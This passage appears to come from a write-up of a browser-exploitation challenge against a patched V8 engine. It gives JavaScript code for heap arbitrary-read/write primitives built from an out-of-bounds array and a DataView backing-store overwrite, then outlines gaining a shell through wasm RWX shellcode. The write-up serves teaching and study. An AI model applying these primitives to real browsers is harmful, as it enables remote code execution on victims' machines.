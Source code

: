 And guess what? We also have the heap arbitrary write. Since `bigUintArray[0]` allows us to reads the content of our pointer, `bigUintArray[0] = X;` writes the content we want at the address we want.


So we have our heap arbitrary write primitive already done:

```js
heap_w = (addr, value) => {
    addr -= 8n;
    oob_array[base_pointer_idx] = i2f((addr << 0x20n) | (prev_data & 0xffffffffn));
    bigUintArray[0] = value;
}
```

### 🔥 Arbitrary write

Well the last thing we need is an arbitrary write. To do so, nothing difficult, we have a javascript object that allows us to achieve that easily. Thanks javascript!

We will use this [technique](https://starlabs.sg/blog/2022/12-the-hole-new-world-how-a-small-leak-will-sink-a-great-browser-cve-2021-38003/#arbitrary-write-primitive).

Here is the arbitrary write setup:

```js
dv = new DataView(new ArrayBuffer(0x1000));

dv_buffer = heap_r(addrof(dv) + 0xcn);

set_dv_backing_store = (addr) => {
    heap_w(dv_buffer + 0x1cn, addr);
}
```

The only thing that we have to do now is to call `set_dv_backing_store(addr)` with `addr` the address where we want to write and then we can write `byte_to_write` to `addr + idx` by calling `dv.setUint8(idx, byte_to_write)`.

It will become easier to understand when we'll write our exploit, don't worry.

### 🐚 Getting shell

One the most used technique to achieve RCE is to use a wasm shellcode.

The process is the following:
- Create a wasm instance with a classical code (it will map a new rwx area in memory)
- Leak the address of the `wasm_instance` object
- Read the address of the rwx area at `wasm_instance+0x60`
- Overwrite the current wasm code by our shellcode
- Call a wasm function (it will make us jump on our shellcode)

<hr>

**Note**:

Remember that the patch is disabling the `wasm_memory_protection_keys` and `wasm_write_protect_code_memory`, thanks to that, we can easily overwrite the wasm code.
